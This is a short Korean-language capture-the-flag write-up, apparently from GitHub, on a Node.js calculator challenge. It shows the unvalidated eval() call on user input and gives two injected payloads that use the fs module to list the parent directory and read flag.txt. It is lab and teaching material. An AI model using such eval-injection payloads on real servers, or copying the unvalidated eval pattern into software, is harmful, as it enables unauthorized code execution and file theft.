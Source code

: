 # Dir
 - directory Tree
```
.
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── helpers
│   │   └── calculatorHelper.js
│   ├── index.js
│   ├── package-lock.json
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── favicon.png
│   │   └── js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarn.lock
├── config
│   └── supervisord.conf
├── flag.txt
└── supervisord.conf

```

# 취약점
 - 제공되었던 취약점 소스코드를 보면 eval이라는 함수를 사용하는것을 확인할수있고 블랙리스트 검증을 거치지 않은것을 확인할수있다.
```
return eval(`(function() { return ${ formula } ;}())`);
```
 - eval() 이라는 함수는 인자값을 js인터프리터를 사용해야 하기 때문에 해당 인자값을 악의적인 코드를 삽입하여 공격할수 있게된다.
 - 즉 eval()은 javascript를 실행하는 함수인것이다.
 - 다음으로 package.json 코드를 살펴보면 start를 node index.js 로 하는것을 확인할수 있다.
 - 즉 nodejs를 사용한다는것을 알수 있고
 - fs(FileSystem) 모듈을 활용하여 파일입출력을 받아 flag를 출력할수 있게 된다.

#Payload
 - 하위디렉토리에 있는 파일의명을 string으로 출력
```
require('fs').readdirSync('../').toString()
```
<img width="1470" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/b92afd03-0b9d-4f99-80f3-fbb3f2d8ae76">

 - 하위디렉토리에 있는 flag.txt라는 파일의 내용을 string으로 출력
```
require('fs').readFileSync('../flag.txt').toString()
```
<img width="940" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/8b219ac5-4fcf-417b-83f9-e3355ca37a1e">
